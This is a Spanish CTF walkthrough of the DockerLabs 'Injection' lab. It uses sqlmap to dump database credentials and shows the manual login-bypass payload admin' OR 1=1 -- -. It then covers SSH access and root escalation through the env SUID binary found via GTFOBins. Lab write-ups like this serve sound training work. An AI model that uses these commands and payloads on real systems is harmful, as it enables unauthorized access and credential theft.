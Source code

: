 plataforma: https://dockerlabs.es/#/
Mirror: https://mega.nz/file/wLN2nQ7B#p0YzUFAsrE3ilnJ9HzMr1hfsUq2DPYiDHlIU_9IEizU
Nombre: Injection
Dificultad: muy fácil
Herramientas:
- Ping
- NMAP
- WhatWeb
- SQLMAP
- Puerto 22 SSH - SFTP



Deploy:

```sh fold:"Deploy injection machine"
sudo bash autodeploy.sh injection.tar
```
![image]([https://github.com/borazuwarah/CTFs-ByBorazuwarah/blob/main/CTFs-By%20borazuwarah/DockerLabs/Vacaciones/Images/Dockerlabs%20-%20Vacaciones%20-%20Despliegue%20me%20maquina.png?raw=true](https://github.com/borazuwarah/CTFs-ByBorazuwarah/blob/main/CTFs-By%20borazuwarah/DockerLabs/Injection/Images/DockerLabs%20-%20Injection%20-%20Deploy.png)


Ping para comprobar conectividad y ver el ttl: 64
![image](https://github.com/borazuwarah/CTFs-ByBorazuwarah/blob/main/CTFs-By%20borazuwarah/DockerLabs/Injection/Images/DockerLabs%20-%20Injection%20-%20Ping.png)

Reconocimiento
```sh fold:"Reconocimiento con nmap"
sudo nmap -sS -p- -sC -sV -Pn 172.17.0.2
```

Puertos abiertos:
![image](https://github.com/borazuwarah/CTFs-ByBorazuwarah/blob/main/CTFs-By%20borazuwarah/DockerLabs/Injection/Images/DockerLabs%20-%20Injection%20-%20Nmap.png)

Nos encontramos los puertos 
- 22
- 80
Primero investigamos el puerto 80
Web:
![image](https://github.com/borazuwarah/CTFs-ByBorazuwarah/blob/main/CTFs-By%20borazuwarah/DockerLabs/Injection/Images/DockerLabs%20-%20Injection%20-%20Web.png)

WhatWeb no nos da mucha información

![image](https://github.com/borazuwarah/CTFs-ByBorazuwarah/blob/main/CTFs-By%20borazuwarah/DockerLabs/Injection/Images/DockerLabs%20-%20Injection%20-%20Whatweb.png)

Intento varios Usuarios y contraseñas pero conm ninguno acccedo, en todos me da el mensaje:
Wrong Credentials

Vamos a ver algo más sobre eta web


Vamos a ver si con SqlMap podemos sacar algo:

```sh fold:"Sql map"
sqlmap -u http://172.17.0.2/index.php --forms --dbs --batch
# information_schema
# mysql
# performance_schema
# regyster
# sys
sqlmap -u http://172.17.0.2/index.php --forms -D --tables --batch
# [1 table]
# +-------+
# | users |
# +-------+
sqlmap -u http://172.17.0.2/index.php --forms -D -T users --columns --batch
# +----------+-------------+
# | Column   | Type        |
# +----------+-------------+
# | passwd   | varchar(30) |
# | username | varchar(30) |
# +----------+-------------+
sqlmap -u http://172.17.0.2/index.php --forms -D -T users -C passwd,username --dump --batch
# +------------------+----------+
# | passwd           | username |
# +------------------+----------+
# | KJSDFG789FGSDF78 | dylan    |
# +------------------+----------+

```
Otra forma de hacer el Sql Injection:
![image](https://github.com/borazuwarah/CTFs-ByBorazuwarah/blob/main/CTFs-By%20borazuwarah/DockerLabs/Injection/Images/DockerLabs%20-%20Injection%20-%20SQL%20Injection%20manual.png)

Explicacion:
Ahora bien, suponiendo que la consulta que busca un usuario en la base de datos es la siguiente:

```sql
SELECT * FROM usuarios WHERE username = 'admin' AND password = 'password';
```

Si insertamos la inyección SQL (`admin' OR 1=1 -- -`) en donde está el texto "admin", la consulta quedará de esta manera:

```sql
SELECT * FROM usuarios WHERE username = 'admin' OR 1=1 -- - AND password = 'password';
```
Esto es posible porque los parámetros de la consulta no están validados:
![image](https://github.com/borazuwarah/CTFs-ByBorazuwarah/blob/main/CTFs-By%20borazuwarah/DockerLabs/Injection/Images/DockerLabs%20-%20Injection%20-%20Codigo%20consulta%20sin%20validar.png)


Acceso con usuario dylan:

![image](https://github.com/borazuwarah/CTFs-ByBorazuwarah/blob/main/CTFs-By%20borazuwarah/DockerLabs/Injection/Images/DockerLabs%20-%20Injection%20-%20User%20access.png)

Vamos a intentar entrar por SSH con este usuario y esta contraseña:

Acceso por ssh con el usuario dylan:

![image](https://github.com/borazuwarah/CTFs-ByBorazuwarah/blob/main/CTFs-By%20borazuwarah/DockerLabs/Injection/Images/DockerLabs%20-%20Injection%20-%20SSH%20dylan%20user.png)


## Escalada de privilegios
sudo -l
![image](https://github.com/borazuwarah/CTFs-ByBorazuwarah/blob/main/CTFs-By%20borazuwarah/DockerLabs/Injection/Images/DockerLabs%20-%20Injection%20-%20sudo-l.png)

find / -perm -4000 2>/dev/null

![image](https://github.com/borazuwarah/CTFs-ByBorazuwarah/blob/main/CTFs-By%20borazuwarah/DockerLabs/Injection/Images/DockerLabs%20-%20Injection%20-%20Suid.png)

Buscamos en Gtfobins algunos de estos suid
![image](https://github.com/borazuwarah/CTFs-ByBorazuwarah/blob/main/CTFs-By%20borazuwarah/DockerLabs/Injection/Images/DockerLabs%20-%20Injection%20-%20gtfobbins%20env.png)
Encuentro env:
lo ejecutamos con las rutas absolutas


![image](https://github.com/borazuwarah/CTFs-ByBorazuwarah/blob/main/CTFs-By%20borazuwarah/DockerLabs/Injection/Images/DockerLabs%20-%20Injection%20-%20Escalada%20de%20privilegiso.png)]

DockerLabs - Injection -

